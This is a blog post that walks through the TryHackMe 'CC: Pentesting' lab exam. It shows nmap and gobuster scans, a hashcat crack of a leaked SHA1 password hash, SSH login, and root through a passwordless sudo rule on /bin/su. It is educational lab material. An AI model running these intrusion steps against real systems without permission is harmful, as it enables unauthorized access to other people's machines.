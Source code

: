 ```yaml
---
layout: post
current: post
cover: 'assets/images/ccpentesting/cover.png'
navigation: True
title: "CC: Pentesting Write Up"
date: 2020-12-08 00:00:00
tags: [tryhackme, ctf, easy]
class: post-template
subclass: 'post'
author: darryn
---
```

![CCPentesting](/assets/images/ccpentesting/cover.png)

### Overview

[CC:Pen Testing](https://tryhackme.com/room/ccpentesting) is a guided room on [TryHackMe](https://tryhackme.com) providing an introduction to some of the common penetration testing tools. Its really well layed out and I recommend to anyone starting out in penetration testing or CTF challenges. This write up will only cover the steps for the final exam.

### Nmap

As normal, I kicked off a nmap scan to see what ports are available.

```highlight
└──╼ $sudo nmap -sC -sV -oA initial 10.10.215.190
[sudo] password for daz: 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:42 GMT
Nmap scan report for 10.10.215.190
Host is up (0.027s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 12:96:a6:1e:81:73:ae:17:4c:e1:7c:63:78:3c:71:1c (RSA)
|   256 6d:9c:f2:07:11:d2:aa:19:99:90:bb:ec:6b:a1:53:77 (ECDSA)
|_  256 0e:a5:fa:ce:f2:ad:e6:fa:99:f3:92:5f:87:bb:ba:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2 Ports open:

- 22 - SSH - Banner is showing its an Ubuntu machine
- 80 - HTTP - Apache web server version 2.4.18

I also ran a full port scan but no additional ports were found.

### Enumeration

The web page displays the basic apache page, I checked the source code but everything was standard. I kicked off a gobuster to see what other directories were available.

```highlight
└──╼ $gobuster dir -u http://10.10.215.190 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.215.190
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/08 21:49:12 Starting gobuster
===============================================================
/secret (Status: 301)
/server-status (Status: 403)
===============================================================
2020/12/08 21:51:09 Finished
===============================================================
```

One directory found '/secret', going to secret doesn't display anything. I ran a second gobuster but this time in the secret folder and checked for .log, .txt and .html using the -x flag.

```highlight
└──╼ $gobuster dir -u http://10.10.215.190/secret -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x log,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.215.190/secret
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     log,txt,html
[+] Timeout:        10s
===============================================================
2020/12/08 21:55:16 Starting gobuster
===============================================================
/index.html (Status: 200)
/secret.txt (Status: 200)
Progress: 49450 / 220561 (22.42%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/12/08 21:59:31 Finished
===============================================================
```

### Initial Access

1 additional file found, secret.txt. Web browsing to http://10.10.215.190/secret/secret.txt I could see the contents of the file:

nyan:046385855FC9580393853D8E(REDACTED)

The password looks to be SHA1. I put the hash in to a file called hash.txt on my VM and ran hashcat with the command: hashcat -m 100 hash.txt /usr/share/wordlists/rockyou.txt --force

Hashcat was successfully able to crack the hash and I was able to SSH in to the machine.

### Priv Esc

Once connected via SSH I ran 'sudo -l', the user nyan is able to run the command /bin/su as root without providing a password. This provides a simple privesc by using the command: 'sudo su' 

Other techniques like this can be found on [gtfobins](https://gtfobins.github.io).

```highlight
nyan@ubuntu:~$ sudo -l
Matching Defaults entries for nyan on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nyan may run the following commands on ubuntu:
    (root) NOPASSWD: /bin/su
nyan@ubuntu:~$
nyan@ubuntu:~$ sudo su
root@ubuntu:/home/nyan# id
uid=0(root) gid=0(root) groups=0(root)
root@ubuntu:/home/nyan# 
```

Thanks for reading!
